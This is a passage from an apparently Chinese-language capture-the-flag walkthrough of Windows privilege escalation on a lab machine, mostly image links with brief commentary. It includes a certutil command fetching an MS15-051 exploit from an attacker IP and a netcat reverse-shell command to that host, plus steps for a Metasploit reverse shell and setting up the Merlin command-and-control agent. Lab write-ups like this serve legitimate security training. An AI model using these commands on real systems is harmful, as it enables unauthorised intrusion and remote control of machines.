 ```
certutil -urlcache -f http://10.10.14.5/ms15-051.exe dayu.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdItyfMzjKWktlomibCBWlGQfBMNjibzIJ9M6iaZXoJ501ez9yhjhmEmXAg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdvNPZ09MmvqUbIHCic0OUOeYs8rrFgo7ZUGoSMfeyxgIBFDLOm9O5Lrw/640?wx_fmt=png)

```
./dayu.exe "c:\Users\merlin\Desktop\nc64.exe -e cmd 10.10.14.5 7777"
```

通过上传 ms15-051.exe 和 nc，执行即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd2ZUntM9QVKHMVSic9Nwmv7SaicXWFsX2R44gCt45gdhDiaZURVAWFdrpw/640?wx_fmt=png)

成功获得 root.txt....

  

  

方法 2：

  

  

利用 MSF 解析下...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdHZTY5yfZRUiazhNRLgACxPWDreTyWZkrNmeZ4LXLkUO3VvnZLao3ovw/640?wx_fmt=png)

这里利用生成一个反向 shell.exe，通过 certutil.exe 上传到靶机，通过 handler 进行监听...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZduvMGHpxppiciax8rOBNotvOOFDk6cebK48grUHusN0RIibfsOr9ZS7o9w/640?wx_fmt=png)

可以看到 X64 有两个漏洞可以利用... 看看 X86 扫描也有很多漏洞可利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd8ic0r3zjHvCpngkW9KujrWxvdfavZdb7NjbJcyBia8zBiaBj6fhVy7MSA/640?wx_fmt=png)

我这里就随便演示一个，成功获得 system 权限查看两个 flag...

  

  

方法 3：

  

  

利用 Merlin 代理进行渗透提权.... 为什么用它，因为此靶机页面是一张向导的老人图... 使用 HTTP/2.0 进行渗透更有效... 我也第一次学习，走起

Merlin 是使用 golang 编写的跨平台的利用后 HTTP / 2 命令和控制服务器和代理...（Golang 语言编写的...666）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdreSzDnGkicTSBwiapSJnCiaiaQYiaNMrRJ7gJ09Xt87YEhSOzjGp3h2k7uQ/640?wx_fmt=png)

```
git clone https://github.com/Ne0nd0g/merlin
```

第一步就是下载 Merlin...

由于 Merlin 是 golang 语言编译的，需要下载 apt-get install golang 才可以运行...
